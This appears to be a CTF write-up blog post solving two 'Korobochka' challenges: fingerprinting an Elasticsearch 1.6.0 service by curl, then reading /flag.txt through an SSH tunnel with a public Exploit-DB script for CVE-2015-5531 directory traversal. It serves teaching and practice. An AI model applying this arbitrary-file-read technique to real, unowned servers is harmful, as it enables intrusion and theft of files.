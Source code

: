 ```yaml
---
layout: post
title:  "5Charlie CTF - Korobochka"
date:   2020-04-28 20:32:38 -0500
categories: write-up
tags: [ctf, write-up, elastic, linux, hacking]
---
```


## Korobochka 1

### Korobochka 1 - Challenge

To access these challenges, ssh to korobochka@haxor.5charlie.com using the attached private key.

What is the version number of the elasticsearch service running on 172.90.0.2?

**Attachments:** `id_korobochka` - SSH Key

### Korobochka 1 - Solution

The default port for ElasticSearch is 9200, so let's just curl that.

{% highlight bash %}
curl http://172.90.0.2:9200
{% endhighlight %}

``` text
bash-5.0$ curl http://172.90.0.2:9200
{
  "status" : 200,
  "name" : "Attuma",
  "cluster_name" : "elasticsearch",
  "version" : {
    "number" : "1.6.0",
    "build_hash" : "cdd3ac4dde4f69524ec0a14de3828cb95bbb86d0",
    "build_timestamp" : "2015-06-09T13:36:34Z",
    "build_snapshot" : false,
    "lucene_version" : "4.10.4"
  },
  "tagline" : "You Know, for Search"
}
```

There it is!

**Flag:** `1.6.0`

## Korobochka 2

### Korobochka 2 - Challenge

What is the flag in /flag.txt on 172.90.0.2? (format: flag{some_text})

### Korobochka 2 - Solution

Given that this version is very old, the challenge is asking for something that's not normally available in Elastic, and we just had to figure out the version of the service, it's a fair bet that we're looking for an exploit for the service.

Nailed it. First result on Google for me:
https://www.exploit-db.com/exploits/38383

{% highlight bash %}
python2 38383.py localhost /flag.txt
{% endhighlight %}

``` text
bash: python: command not found
```

Oh... That's fine, we'll just make an SSH tunnel and run it on our own box.

{% highlight bash %}
ssh -Nf -L 9200:172.90.0.2:9200 -o "identitiesOnly=yes" -i ./id_korobochka korobochka@haxor.5charlie.com
{% endhighlight %}

If you're not familiar with SSH tunneling, here's a quick breakdown of the above.

- `-N`: Do not execute a remote command.  This is useful for just forwarding ports.
- `-f`: Requests ssh to go to background just before command execution. (So we can reuse the terminal)
- `-L`: Specifies that connections to the given TCP port or Unix socket on the local (client) host are to be forwarded to the given host and port, or Unix socket, on the remote side.
  - `[bind_address:]port:host:hostport`
  - ELIF: We're telling SSH to forward any traffic that goes to our local port 9200 across the SSH tunnel and then send it to `172.90.0.2:9200`

The other options aren't really useful to the tunnel, feel free to look them up.

Now that our tunnel is set up, let's run it.

{% highlight bash %}
python2 38383.py localhost /flag.txt
{% endhighlight %}

``` text
➜  korobochka python2 38383.py localhost /flag.txt
!dSR script for CVE-2015-5531

flag%7Byou_know%2C_for_search%7D
```

**Flag:** `flag{you_know,_for_search}`

## Additional Notes

I'll be honest, I actually tunneled at the very beginning.
When it comes to database-related challenges, I usually start with that and forward it to a local GUI so that I can access the information faster.

For this chall I tried forwarding it to DataGrip, Kibana, and DejaVu, but unfortunately the version of Elastic was so lod that none of them could communicate properly.

Usually this is a very effective technique for me though, especially DataGrip.
